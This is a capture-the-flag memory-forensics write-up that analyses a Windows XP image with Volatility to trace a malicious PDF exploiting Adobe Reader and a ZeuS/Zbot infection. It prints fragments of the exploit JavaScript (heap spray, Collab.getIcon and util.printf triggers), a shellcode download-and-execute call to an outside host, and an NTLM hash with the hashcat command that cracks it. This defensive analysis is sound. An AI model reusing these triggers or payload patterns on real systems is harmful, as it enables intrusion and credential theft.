## Challenge Scenario

Company X has contacted you to perform forensics work on a recent incident that occurred. One of their employees had received an e-mail from a co-worker that pointed to a PDF file. Upon opening, the employee did not notice anything; however, they recently had unusual activity in their bank account.

The initial theory is that a user received an e-mail, containing an URL leading to a forged PDF document. Opening that document in Acrobat Reader triggers a malicious Javascript that initiates a sequence of actions to take over the victim's system.

Company X was able to obtain a memory image of the employee's virtual machine upon suspected infection and asked you as a security blue team analyst to analyze the virtual memory and provide answers to the questions.

## Materials Given

- Memory dump: `Bob.vmem`

## Initial Analysis

The file I received had a `.vmem` extension. I found that this is a VMware virtual memory file, commonly used as the backing store for RAM in a running or suspended virtual machine. Since the investigation depended on memory artifacts, this file was the main evidence source.

I used `Volatility 2` for the analysis. Before running any detailed plugins, I needed to identify the correct operating system profile, so I started with `imageinfo`.

```bash
./vol2 -f Bob.vmem imageinfo
```



The suggested profile that matched the memory image was `WinXPSP2x86`, so I used that profile throughout the rest of the investigation.

## Questions and Answers

### Q1: What was the local IP address of the victim's machine?

**Answer: 192.168.0.176**

My first idea was to use `netscan` to check the network activity. As I explored further, I found that `netscan` is meant for Windows Vista and later, while this memory image came from Windows XP. Because of that, I switched to the older `connections` plugin, which supports legacy Windows versions.

```bash
./vol2 -f Bob.vmem --profile=WinXPSP2x86 connections
```



The output showed the active TCP connections, including the local address `192.168.0.176`.

### Q2: What was the OS environment variable's value?

**Answer: Windows_NT**

Since the question asked about an environment variable, I used the `envars` plugin. I found that it lists environment variables for processes in the memory image, which makes it useful for checking values like `OS`, `Path`, `TEMP`, `SystemRoot`, and `USERPROFILE`.

```bash
./vol2 -f Bob.vmem --profile=WinXPSP2x86 envars
```



In the output, I located the variable named `OS`. The value appeared across multiple Windows processes, including `services.exe` and `lsass.exe`, which helped me confirm that it was the normal system-wide value.

### Q3: What was the Administrator's password?

**Answer: PASSWORD**

To recover the Administrator password, I first dumped the Windows password hashes from memory with the `hashdump` plugin.

```bash
./vol2 -f Bob.vmem --profile=WinXPSP2x86 hashdump
```

I learned that `hashdump` extracts password hashes from registry hives in memory, mainly the SAM and SYSTEM hives. Those hashes can then be cracked offline.

From the output, I identified the Administrator account.



The NTLM hash for the Administrator account was:

```text
8846f7eaee8fb117ad06bdd830b7586c
```

I saved the hash to a file and used Hashcat mode `1000`, which is used for NTLM hashes.

```bash
hashcat -m 1000 hash.txt Rockyou
```

I had already cracked the hash before writing the report, so the result was stored in Hashcat's potfile. To show the recovered password again, I used `--show`.



The plaintext password was `PASSWORD`.

### Q4: Which process was most likely responsible for the initial exploit?

**Answer: AcroRd32.exe**

The scenario mentioned that the victim opened a forged PDF document in Adobe Acrobat Reader. Based on that clue, I expected to find an Adobe Reader process in memory.

I listed the running processes with `pslist`.

```bash
./vol2 -f Bob.vmem --profile=WinXPSP2x86 pslist
```



I found `AcroRd32.exe`, which is the Adobe Acrobat Reader process. Since the attack began with a malicious PDF, this process was the strongest candidate for the initial exploit.

### Q5: What is the extension of the malicious file retrieved from the process responsible for the initial exploit?

**Answer: pdf**

The process responsible for the initial exploit was `AcroRd32.exe`, and the scenario clearly described a malicious PDF being opened by the victim. Because of that, the file retrieved from the initial exploit process would have the `pdf` extension.

### Q6: Suspicious processes opened network connections to external IPs. One of them starts with "2". Provide the full IP.

**Answer: 212.150.164.203**

To look for suspicious external connections, I returned to the `connections` output.



The plugin showed active TCP connections with their local address, remote address, and process ID. From the earlier process analysis, `AcroRd32.exe` had PID `1752`. I found that PID `1752` had opened an HTTP connection to the external IP address `212.150.164.203`.

### Q7: A suspicious URL was present in process svchost.exe memory. Provide the full URL that points to a PHP page hosted over a public IP (no FQDN).

**Answer: http://193.104.22.71/~produkt/9j856f_4m9y8urb.php**

From the process list, I found an `svchost.exe` process running with PID `880`.



I then checked the active network connections again.



In the output, PID `880` was connected to the public IP address `193.104.22.71` over HTTP. That stood out because the question asked for a URL hosted directly on a public IP instead of a domain name.

To get more context, I searched the memory image for strings containing that IP address.

```bash
strings Bob.vmem | grep 193.104.22.71
```



This revealed several URL strings that contained the same IP address. The relevant PHP URL was `http://193.104.22.71/~produkt/9j856f_4m9y8urb.php`.

### Q8: Extract files from the initial process. One file has an MD5 hash ending with `528afe08e437765cc`. When was this file first submitted for analysis on VirusTotal?

**Answer: `2010-03-29 19:31:45`**

The initial suspicious process was `AcroRd32.exe` with PID `1752`. I used `memdump` instead of `procdump` because I wanted the full memory space of the process, not only the reconstructed executable image.

This was an important distinction for me to learn. `procdump` is useful for dumping the main PE file, but it can miss embedded files, shellcode, PDFs, and other artifacts that only exist inside process memory. Since this question asked about a file retrieved from the initial process, dumping the full process memory made more sense.

```bash
./vol2 -f Bob.vmem --profile=WinXPSP2x86 memdump -p 1752 -D dump_dir
```

After dumping the process memory, I used `foremost` to carve files from it. Then I calculated MD5 hashes for all extracted files.

```zsh
find output -type f -exec md5sum {} \;
```

The command recursively checks every regular file under `output` and prints its MD5 hash. I filtered the results for the hash ending `528afe08e437765cc`.



After finding the full MD5 hash, I looked it up on VirusTotal. The first submission time shown there was:

```text
2010-03-29 19:31:45
```



### Q9: What was the PID of the process that loaded the file `PDF.php`?

**Answer: `1752`**

The suspicious Adobe Reader process, `AcroRd32.exe`, had already been identified as PID `1752`. To confirm whether it loaded or referenced `PDF.php`, I searched inside the memory dump for that process.

```bash
strings /Users/hoangson/Documents/CTF/cyberdefenders/BankingTroubles/dumpfiles/1752.dmp | grep PDF.php
```

The output showed multiple references to `PDF.php` inside the memory space of PID `1752`. One of them was a local temporary path:

```text
C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp\plugtmp\PDF.php
```

It also showed a remote URL referencing the same file:

```text
http://search-network-plus.com/cache/PDF.php?st=Internet%20Explorer%206.0
```



Because these strings were found directly inside the `AcroRd32.exe` process memory, I concluded that `PDF.php` was loaded or referenced by PID `1752`.

### Q10: The JS includes a function meant to hide the call to function `eval()`. Provide the name of that function.

**Answer: `HNQYxrFW`**

The PDF extracted earlier looked suspicious, so I started analyzing it more closely.



I opened the suspicious PDF with `peepdf` in interactive mode.

```bash
peepdf -f -i 00601560.pdf
```



The first `peepdf` summary showed that the PDF contained JavaScript:

```text
Objects with JS code (1): [1054]
```

It also showed suspicious PDF elements such as `/JS`, `/JavaScript`, and `/AA`. I learned that `/AA` can indicate an additional action, which means the JavaScript may run automatically when the document is opened.

I first inspected object `11`.

```text
object 11
```

Object `11` did not hold the JavaScript directly. Instead, it pointed to object `1054`.

```text
/S /JavaScript
/JS 1054 0 R
```

That meant the real JavaScript code was stored in object `1054`, so I inspected that stream next.



Inside the JavaScript stream, I found this line:

```javascript
HNQYxrFW(eval, vIfwHVPz(xtdxJYVm, JkYBYnxN), BGmiwYYc);
```



This was interesting because `eval()` was not called directly. Instead, `eval` was passed as the first argument into the function `HNQYxrFW`. I found that this was an obfuscation trick: the code hid the direct `eval()` call by wrapping it inside another function.

So the function used to hide the call to `eval()` was `HNQYxrFW`.

### Q11: The payload includes 3 shellcodes for different versions of Acrobat Reader. Provide the function name that corresponds to Acrobat v9.

**Answer: `XiIHG`**

After extracting the JavaScript stream from the malicious PDF, I found that the first-stage script was still obfuscated. The key line was:

```javascript
HNQYxrFW(eval, vIfwHVPz(xtdxJYVm, JkYBYnxN), BGmiwYYc);
```

This showed that the decoded payload was produced by `vIfwHVPz(xtdxJYVm, JkYBYnxN)` and then executed through the hidden `eval()` call. To avoid running the malware logic, I recreated only the decoding part in Python.

```python
import re
import sys
from pathlib import Path


def bits_to_text(bits: str) -> bytes:
    bits = bits.strip()
    if len(bits) % 8 != 0:
        print(f"[!] Warning: bit length not divisible by 8: {len(bits)}")

    out = bytearray()
    for i in range(0, len(bits) - 7, 8):
        out.append(int(bits[i:i+8], 2))
    return bytes(out)


def xor_bits(a: str, b: str) -> str:
    n = min(len(a), len(b))
    return "".join("1" if a[i] != b[i] else "0" for i in range(n))


def extract_var(js: str, name: str) -> str:
    m = re.search(r"var\s+" + re.escape(name) + r"\s*=\s*'([01]+)'", js)
    if not m:
        raise ValueError(f"Could not find variable {name}")
    return m.group(1)


def main():
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} input_js.txt decoded_stage1.js")
        sys.exit(1)

    inp = Path(sys.argv[1])
    outp = Path(sys.argv[2])

    js = inp.read_text(errors="ignore")

    xtdx = extract_var(js, "xtdxJYVm")
    key = extract_var(js, "JkYBYnxN")

    print(f"[+] xtdxJYVm bits: {len(xtdx)}")
    print(f"[+] JkYBYnxN bits: {len(key)}")

    xored_bits = xor_bits(xtdx, key)
    decoded = bits_to_text(xored_bits)

    outp.write_bytes(decoded)

    print(f"[+] Decoded bytes: {len(decoded)}")
    print(f"[+] Saved: {outp}")
    print()
    print(decoded[:500].decode("latin-1", errors="replace"))


if __name__ == "__main__":
    main()
```

The script extracts two binary-string variables from the obfuscated JavaScript: `xtdxJYVm` and `JkYBYnxN`.

```python
xtdx = extract_var(js, "xtdxJYVm")
key = extract_var(js, "JkYBYnxN")
```

Both variables are long strings made of `0` and `1` characters. One is the encoded payload, and the other is the XOR key. The script XORs them bit by bit:

```python
xored_bits = xor_bits(xtdx, key)
```

Then it converts every 8 bits into a byte and writes the decoded JavaScript to a new file.

```python
decoded = bits_to_text(xored_bits)
outp.write_bytes(decoded)
```

After decoding, I focused on the version-selection logic in the second-stage JavaScript. I found three exploit functions:

```javascript
function bSuTN() { ... }
function Soy() { ... }
function XiIHG() { ... }
```

The script used `app.viewerVersion` to choose which branch to run:

```javascript
var sly = unescape,
    ZgA = app.viewerVersion.toString(),
    TjP = this;

if (ZgA < 8) {
    bSuTN();
}

if (ZgA >= 8 && ZgA < 9) {
    Soy();
}

if (ZgA <= 9) {
    XiIHG();
}
```

For Acrobat Reader v9, the relevant branch is:

```javascript
if (ZgA <= 9) {
    XiIHG();
}
```

I also saw that `XiIHG()` contained shellcode-style behavior. It built a shellcode buffer, created a NOP sled using repeated `\u9090` values, performed heap spraying with an array, and then triggered the exploit through `Collab.getIcon()`.

```javascript
function XiIHG() {
    var cqcNr = sly("\uC033\u8B64\u3040...");
    dPl = sly("\u9090\u9090\u9090...") + cqcNr;
    Cwy = [];
    for (XWT = 0; XWT < 180; XWT++)
        Cwy[XWT] = eUq + dPl;
    Collab.getIcon(LwZ + "_N.bundle");
}
```

From that version check, I found that the function corresponding to Acrobat v9 was `XiIHG`.

### Q12: Process `winlogon.exe` hosted a popular malware that was first submitted for analysis at VirusTotal on `2010-03-29 11:34:01`. Provide the MD5 hash of that malware.

**Answer: `066f61950bdd31db4ba95959b86b5269`**

I started by listing active processes with `pslist`.

```bash
./vol2 -f Bob.vmem --profile=WinXPSP2x86 pslist
```

In the output, I found `winlogon.exe`.

```text
winlogon.exe    PID: 644    PPID: 548
```



This told me that PID `644` was the process I needed to inspect.

To look for injected or suspicious memory regions, I ran `malfind` against PID `644` and dumped the results.

```bash
./vol2 -f Bob.vmem --profile=WinXPSP2x86 malfind --pid=644 -D malfinddump
```



`malfind` found suspicious regions inside `winlogon.exe`. One region started at virtual address `0x10000` and contained an `MZ` header. It was surprising to learn that this pointed to a PE executable inside the process memory, not just random shellcode.

The command produced several dumps. I uploaded them to VirusTotal and found a sample identified as `binary.exe`. VirusTotal showed its MD5 hash as:

```text
066f61950bdd31db4ba95959b86b5269
```



I also checked the VirusTotal history and confirmed that the first submission time matched the question:

```text
2010-03-29 11:34:01
```

### Q13: What is the name of the malicious executable referenced in registry hive `\WINDOWS\system32\config\software`, and is it a variant of the ZeuS trojan?

**Answer: `sdra64.exe`**

To investigate the referenced registry hive, I first listed the registry hives loaded in memory.

```bash
./vol2 -f /Users/hoangson/Documents/CTF/cyberdefenders/BankingTroubles/Bob.vmem \
--profile=WinXPSP2x86 hivelist
```



The SOFTWARE hive appeared in the output as:

```text
Virtual:  0xe1526748
Physical: 0x036bd748
Name: \Device\HarddiskVolume1\WINDOWS\system32\config\software
```

The virtual offset I needed was:

```text
0xe1526748
```

As I explored further, I learned that ZeuS/Zbot malware is known to abuse the Winlogon `Userinit` value for persistence. Normally, `Userinit` should point to the legitimate Windows binary:

```text
C:\WINDOWS\system32\userinit.exe
```

However, some ZeuS/Zbot variants append their own executable to that value so the malware runs whenever a user logs on.

Source: [New Zbot malicious campaign](https://www.helpnetsecurity.com/2010/04/15/new-zbot-malicious-campaign/?utm_source=chatgpt.com)

I used `printkey` against the SOFTWARE hive and inspected the Winlogon key.

```bash
./vol2 -f /Users/hoangson/Documents/CTF/cyberdefenders/BankingTroubles/Bob.vmem \
--profile=WinXPSP2x86 printkey \
-o 0xe1526748 \
-K "Microsoft\Windows NT\CurrentVersion\Winlogon"
```



The `Userinit` value contained:

```text
C:\WINDOWS\system32\userinit.exe,C:\WINDOWS\system32\sdra64.exe
```

The first executable, `userinit.exe`, is legitimate. The second one, `sdra64.exe`, is suspicious because it was appended to the Winlogon `Userinit` value. Based on the persistence method and the referenced research, I found that `sdra64.exe` is associated with a ZeuS/Zbot variant.

### Q14: The shellcode for Acrobat v7 downloads a file named `e.exe` from a specific URL. Provide the URL.

**Answer: `http://search-network-plus.com/load.php?a=a&st=Internet Explorer 6.0&e=2`**

While reviewing the decoded JavaScript payload, I found three variables that contained shellcode:

```javascript
var Uueqk = sly("...");
HRb = sly("...");
var cqcNr = sly("...");
```

The version-selection logic showed which function belonged to each Acrobat Reader version.



For Acrobat Reader v7, the condition `ZgA < 8` is true, so the script runs:

```javascript
bSuTN();
```

Inside `bSuTN()`, the shellcode is stored in `Uueqk`.



Because `sly` is assigned to `unescape`, I understood that the JavaScript was using Unicode escape sequences to represent shellcode bytes. To extract the shellcode safely, I wrote a Python script that pulled out each shellcode variable and decoded the `\uXXXX` values.

```python
#!/usr/bin/env python3
import re
import argparse
from pathlib import Path

VARS = ["Uueqk", "HRb", "cqcNr"]

def decode(s):
    return b"".join(
        int(x, 16).to_bytes(2, "little")
        for x in re.findall(r"\\u([0-9a-fA-F]{4})", s)
    )

def extract(js, name):
    m = re.search(rf'(?:var\s+)?{name}\s*=\s*sly\s*\(\s*"(.*?)"\s*\)', js, re.S)
    return m.group(1) if m else None

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("js")
    ap.add_argument("-o", "--out", default="shellcodes")
    args = ap.parse_args()

    js = Path(args.js).read_text(errors="ignore")
    out = Path(args.out)
    out.mkdir(exist_ok=True)

    for name in VARS:
        data = extract(js, name)
        if not data:
            print(f"[-] Missing {name}")
            continue

        sc = decode(data)
        path = out / f"{name}.bin"
        path.write_bytes(sc)

        print(f"[+] {name}: {len(sc)} bytes -> {path}")

if __name__ == "__main__":
    main()
```

The script looks for assignments such as:

```javascript
var Uueqk = sly("...");
HRb = sly("...");
var cqcNr = sly("...");
```

Then it decodes each JavaScript Unicode escape sequence. I learned that the byte order matters here because x86 shellcode uses little-endian ordering. For example, `\uC033` becomes:

```text
33 C0
```

That decodes correctly as the x86 instruction:

```asm
xor eax, eax
```

The script produced separate raw shellcode files.



For the Acrobat v7 branch, I focused on the `Uueqk` shellcode and emulated it with Speakeasy as raw 32-bit x86 shellcode.

```bash
speakeasy --raw --arch x86 -t /Users/hoangson/Documents/CTF/cyberdefenders/BankingTroubles/shellcode/Uueqk_shellcode.bin
```

The `--raw` option was needed because the extracted data was shellcode, not a full PE executable. The `--arch x86` option matched the Windows XP and Acrobat exploit environment.



The important API call was:

```text
urlmon.URLDownloadToFileA(
    0x0,
    "http://search-network-plus.com/load.php?a=a&st=Internet Explorer 6.0&e=2",
    "C:\\windows\\temp\\e.exe",
    0x0,
    0x0
)
```

This showed that the shellcode downloaded `e.exe` from:

```text
http://search-network-plus.com/load.php?a=a&st=Internet Explorer 6.0&e=2
```

It then saved the file locally as:

```text
C:\windows\temp\e.exe
```

After the download, the shellcode executed it with:

```text
kernel32.WinExec("C:\\windows\\temp\\e.exe", 0x0)
```

### Q15: The shellcode for Acrobat v8 exploits a specific vulnerability. Provide the CVE number.

**Answer: `CVE-2008-2992`**

To identify the vulnerability used by the Acrobat v8 shellcode, I followed the decoded JavaScript instead of guessing from the CVE list.

The first-stage JavaScript hid its real payload behind this call:

```javascript
HNQYxrFW(eval, vIfwHVPz(xtdxJYVm, JkYBYnxN), BGmiwYYc);
```

After decoding the second-stage JavaScript, I found the Acrobat version branches:

```javascript
if (ZgA < 8) {
    bSuTN();
}

if (ZgA >= 8 && ZgA < 9) {
    Soy();
}

if (ZgA <= 9) {
    XiIHG();
}
```

For Acrobat Reader v8, the matching condition is:

```javascript
if (ZgA >= 8 && ZgA < 9) {
    Soy();
}
```

That meant the v8 exploit path was handled by `Soy()`. Inside that function, the shellcode variable was:

```javascript
HRb = sly("\uC033\u8B64\u3040...");
```

The clue that mattered most was the trigger used near the end of `Soy()`:

```javascript
var IdI = "66055447950636260127";

for (sly = 0; sly < 138 * 2; sly++) {
    IdI += "3";
}

util.printf("%45000f", IdI);
```

The line `util.printf("%45000f", IdI);` stood out because it uses a crafted floating-point format string. When I researched Adobe Reader vulnerabilities involving `util.printf()`, I found that `CVE-2008-2992` is a stack-based buffer overflow in Adobe Acrobat and Reader 8.1.2 and earlier. Public references describe it as being triggered through a crafted PDF that calls the JavaScript `util.printf()` function with a crafted format string.

The Core Security advisory also describes the bug as a boundary error when Adobe Reader parses floating-point format strings in the JavaScript `util.printf()` function. Their example uses the same style of trigger: a large floating-point format string passed into `util.printf()`.

That matched this sample closely:

```text
Acrobat v8 branch
Soy()
HRb shellcode
util.printf("%45000f", IdI)
Adobe Reader util.printf() stack buffer overflow
```

Because the decoded v8 branch uses `util.printf("%45000f", IdI)`, I found that the CVE exploited by the Acrobat v8 shellcode was `CVE-2008-2992`.

Source: [CVE-2008-2992 Detail](https://nvd.nist.gov/vuln/detail/CVE-2008-2992)

## Reconstructed Attack Timeline

I did not have reliable event timestamps from the victim machine, so I treated this as a reconstructed timeline based on the evidence found in memory. This helped me understand the attack as a chain instead of only separate answers.

| Order | Stage | Evidence Found | What I Understood |
| --- | --- | --- | --- |
| 1 | Delivery | The scenario described an email from a coworker containing a URL to a PDF file. | The victim was likely tricked into clicking a link and opening a malicious PDF. |
| 2 | User execution | `AcroRd32.exe` was present in the process list as PID `1752`. | Adobe Reader was most likely used to open the malicious PDF. |
| 3 | Initial exploit | The PDF contained JavaScript in object `1054`, with suspicious `/JS`, `/JavaScript`, and `/AA` entries. | The PDF was designed to run embedded JavaScript, likely when the document opened. |
| 4 | JavaScript obfuscation | The script used `HNQYxrFW(eval, vIfwHVPz(...), ...)`. | The malware hid the direct call to `eval()` by wrapping it in another function. |
| 5 | Acrobat version targeting | The decoded script used `app.viewerVersion` and selected `bSuTN()`, `Soy()`, or `XiIHG()`. | The payload had separate exploit paths for different Acrobat Reader versions. |
| 6 | External connection | `AcroRd32.exe` PID `1752` connected to `212.150.164.203`. | The exploited PDF process made an outbound HTTP connection. |
| 7 | Suspicious URL in memory | `svchost.exe` PID `880` referenced `http://193.104.22.71/~produkt/9j856f_4m9y8urb.php`. | Another suspicious process contained a PHP URL hosted directly on a public IP. |
| 8 | Payload download | The Acrobat v7 shellcode called `URLDownloadToFileA` and downloaded `e.exe`. | The shellcode downloaded a second-stage executable from `search-network-plus.com`. |
| 9 | Payload execution | The shellcode called `WinExec("C:\\windows\\temp\\e.exe", 0x0)`. | After downloading `e.exe`, the shellcode executed it on the victim system. |
| 10 | Process injection | `malfind` found an injected PE region inside `winlogon.exe` PID `644`. | Malware was running from inside a legitimate Windows process. |
| 11 | Persistence | The Winlogon `Userinit` value included `C:\WINDOWS\system32\sdra64.exe`. | The malware added itself to a logon-related registry value to survive reboots or new logons. |
| 12 | Malware family clue | The `sdra64.exe` persistence pattern matched known ZeuS/Zbot behavior. | The compromise was consistent with a banking malware infection chain. |

## MITRE ATT&CK and CVE Mapping

This table is my best mapping from the observed evidence to MITRE ATT&CK. Some rows are direct matches, while others are careful inferences based on the behavior seen in memory.

| Evidence or Behavior | MITRE ATT&CK ID | Technique | Tactic | CVE |
| --- | --- | --- | --- | --- |
| Email contained a URL that led the victim to the malicious PDF. | [T1566.002](https://attack.mitre.org/techniques/T1566/002/) | Phishing: Spearphishing Link | Initial Access | N/A |
| Victim opened the malicious PDF in Adobe Reader. | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | User Execution: Malicious File | Execution | N/A |
| PDF exploited Adobe Reader to run attacker-controlled code. | [T1203](https://attack.mitre.org/techniques/T1203/) | Exploitation for Client Execution | Execution | [CVE-2008-2992](https://nvd.nist.gov/vuln/detail/CVE-2008-2992) for the Acrobat v8 `util.printf()` branch |
| JavaScript used wrapper functions, XOR decoding, and hidden `eval()` execution. | [T1027](https://attack.mitre.org/techniques/T1027/) | Obfuscated Files or Information | Defense Evasion | N/A |
| Embedded PDF JavaScript decoded and executed the next-stage script. | [T1059.007](https://attack.mitre.org/techniques/T1059/007/) | Command and Scripting Interpreter: JavaScript | Execution | N/A |
| Shellcode downloaded `e.exe` from an external HTTP URL. | [T1105](https://attack.mitre.org/techniques/T1105/) | Ingress Tool Transfer | Command and Control | N/A |
| Suspicious network activity used HTTP URLs and public IP-hosted PHP pages. | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Application Layer Protocol: Web Protocols | Command and Control | N/A |
| Shellcode used Windows API behavior such as `URLDownloadToFileA` and `WinExec`. | [T1106](https://attack.mitre.org/techniques/T1106/) | Native API | Execution | N/A |
| A malicious PE was found injected inside `winlogon.exe`. | [T1055](https://attack.mitre.org/techniques/T1055/) | Process Injection | Defense Evasion, Privilege Escalation | N/A |
| The Winlogon `Userinit` registry value launched `sdra64.exe`. | [T1547.004](https://attack.mitre.org/techniques/T1547/004/) | Boot or Logon Autostart Execution: Winlogon Helper DLL | Persistence, Privilege Escalation | N/A |
